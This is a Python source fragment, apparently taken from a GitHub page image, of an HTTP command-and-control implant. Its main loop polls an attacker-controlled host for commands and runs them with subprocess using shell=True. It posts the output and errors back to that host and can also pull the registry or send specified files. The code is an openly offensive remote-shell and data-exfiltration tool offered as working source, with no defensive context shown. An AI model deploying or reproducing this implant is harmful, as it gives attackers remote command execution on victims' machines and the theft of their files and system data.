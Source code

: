 ``` python

        i.e. ls, dir, cat /etc/hosts
    """

    print(f"Running command: {command}")

    # ouptut needs to be captures as we are sending the std out and error back
    cmd = subprocess.run(command, capture_output=True, shell=True)

    # only send out and err if they exist, limits post requests back to server
    out = cmd.stdout.decode()
    err = cmd.stderr.decode()
    if out:
        post_response = requests.post(
            url=IP, data=out)
    if err:
        post_response = requests.post(
            url=IP, data=err)


def main():
    """
    Main logic loop

    Based on input from server runs either:

            pulls specified file
            exports registry
            run specified command
    """

    while True:

        # Setup connection to attacker
        # Send GET request to host machine
        req = requests.get(IP)
        command = req.text

        print(f"Status Code: {req.status_code}")

        if command in {'terminate', 't'}:
            print("Terminating Connection")
            break
        elif '!' in command:
            pull_registry()
            break
        elif '^' in command:
            send_file(command)
        else:
            run_process(command)
        print(f"Status Code: {req.status_code}")
        time.sleep(2)


if __name__ == "__main__":
    main()
```
